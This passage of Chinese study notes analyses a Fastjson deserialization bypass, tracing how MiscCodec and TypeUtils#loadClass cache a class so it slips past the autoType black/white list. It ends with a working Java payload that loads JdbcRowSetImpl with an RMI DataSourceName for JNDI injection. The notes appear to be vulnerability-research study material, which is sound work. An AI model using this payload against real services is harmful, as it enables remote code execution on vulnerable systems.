     一般情况下，`autoTypeSupport = false`，然后 `expectClass` 为 null。

3. 根据上述变量条件，首先黑白名单基本不考虑，再根据逻辑判断，最终选择走 `clazz == null` 的分支。走这就要求 `clazz` 要不为空，而 `clazz` 是从缓存中获取的，那么接下来就是想办法“如何往缓存中插入恶意类，从而绕过黑白名单检测”。

4. 寻找 usage，找到 `put` 的地方，最终确定在 `TypeUtils#loadClass()` 中。然后再找这个方法的 usage。最终在 `MiscCodec#deserialze()` 中：
    ![image-20230516154052292](Serialization-fastjson/image-20230516154052292.png)

5. 观察一下，`MiscCodeC` 继承了 `ObjectSerializer, ObjectDeserializer` ，所以它应该是序列化反序列化器，然后在 `ParserConfig` 类中，`deserializers` 中存放了不同的类所对应的序列化器：![image-20230516154811064](Serialization-fastjson/image-20230516154811064.png)
    然后 `MiscCodec#deserialze()` 正是它反序列化时调用的方法，其中的 clazz 就是被序列化类的 class 字节码类型。

6. 因此，**如果传入一个 `Class` 类给反序列化**，那么 Fastjson 就会调用 `MiscCodec#deserialze()` 进行处理，然后就会进入到 `loadClass()` 中，从而会将传入的 `strVal` 所代表的类放入缓存中。

7. 如果 `strVal` 指代的是恶意类，那么就把恶意类放入到缓存中，这样就会绕过黑白名单检测。所以要向 `strVal` 中赋值。
    ![image-20230516161115939](Serialization-fastjson/image-20230516161115939.png)
    todo 我也不懂为什么要往 `val` 中赋值，但 `val` 赋值后确实会到 `strVal` 中。

8. 最终 payload 如下：
    ```java
    private static void Bypass1_2_25_JNDI() {
        String payload = "{{\"@type\":\"java.lang.Class\", \"val\":\"com.sun.rowset.JdbcRowSetImpl\"}," +
            "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\", \"DataSourceName\":\"rmi://127.0.0.1:1099/myRemote\", \"AutoCommit\":false}}";
        JSON.parse(payload);
    }
    ```
